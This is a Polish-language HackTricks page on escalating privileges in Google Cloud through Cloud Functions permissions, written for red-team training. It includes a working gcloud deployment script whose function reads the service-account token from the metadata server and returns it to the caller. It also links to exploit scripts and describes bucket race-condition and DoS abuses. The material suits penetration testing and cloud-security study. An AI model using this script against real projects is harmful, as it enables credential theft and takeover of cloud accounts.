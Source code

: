 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Więcej informacji o Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napastnik z tymi uprawnieniami może **utworzyć nową Cloud Function z dowolnym (złośliwym) kodem i przypisać jej konto usługi**. Następnie, wyciek tokena konta usługi z metadanych w celu eskalacji uprawnień do niego.\
Możliwe, że będą wymagane pewne uprawnienia do wywołania funkcji.

Skrypty exploitacyjne dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) i [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py), a gotowy plik .zip można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

Napastnik z tymi uprawnieniami może **zmodyfikować kod funkcji, a nawet zmienić przypisane konto usługi** w celu wyeksfiltrowania tokena.

{% hint style="danger" %}
Aby wdrożyć funkcje chmurowe, będziesz również potrzebować uprawnień actAs dla domyślnego konta usługi obliczeniowej lub dla konta usługi, które jest używane do budowy obrazu.
{% endhint %}

Niektóre dodatkowe uprawnienia, takie jak uprawnienie `.call` dla wersji 1 cloudfunctions lub rola `role/run.invoker` do wywołania funkcji mogą być wymagane.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
Jeśli otrzymasz błąd `Permission 'run.services.setIamPolicy' denied on resource...`, to dlatego, że używasz parametru `--allow-unauthenticated` i nie masz wystarczających uprawnień do tego.
{% endhint %}

Skrypt exploitacyjny dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

Dzięki temu uprawnieniu możesz uzyskać **podpisany URL, aby móc przesłać plik do koszyka funkcji (ale kod funkcji nie zostanie zmieniony, nadal musisz go zaktualizować)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie jestem pewien, jak przydatne jest tylko to uprawnienie z perspektywy atakującego, ale dobrze wiedzieć.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

Daj sobie dowolne z wcześniejszych **`.update`** lub **`.create`** uprawnień, aby eskalować.

### `cloudfunctions.functions.update`

Mając tylko uprawnienia **`cloudfunctions`**, bez **`iam.serviceAccounts.actAs`**, **nie będziesz w stanie zaktualizować funkcji, WIĘC TO NIE JEST WAŻNA ESCALACJA.**

### Dostęp do odczytu i zapisu w koszyku

Jeśli masz dostęp do odczytu i zapisu w koszyku, możesz monitorować zmiany w kodzie, a gdy tylko **nastąpi aktualizacja w koszyku, możesz zaktualizować nowy kod swoim własnym kodem**, który nowa wersja Cloud Function będzie uruchamiała z przesłanym złośliwym kodem.

Możesz sprawdzić więcej na temat ataku w:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Jednak nie możesz użyć tego do wstępnego kompromitowania funkcji Cloud innych firm, ponieważ jeśli stworzysz koszyk na swoim koncie i dasz mu publiczne uprawnienia, aby zewnętrzny projekt mógł na nim pisać, otrzymasz następujący błąd:

<figure><img src="../../../.gitbook/assets/image.png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Jednak to może być użyte do ataków DoS.
{% endhint %}

### Dostęp do odczytu i zapisu w rejestrze artefaktów

Gdy tworzona jest funkcja Cloud, nowy obraz docker jest przesyłany do rejestru artefaktów projektu. Próbowałem zmodyfikować obraz na nowy, a nawet usunąć bieżący obraz (i obraz `cache`), ale nic się nie zmieniło, funkcja cloud nadal działa. Dlatego może **możliwe jest nadużycie ataku Race Condition** jak w przypadku koszyka, aby zmienić kontener docker, który będzie uruchamiany, ale **po prostu modyfikacja przechowywanego obrazu nie jest możliwa do kompromitacji funkcji Cloud**.

## Referencje

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

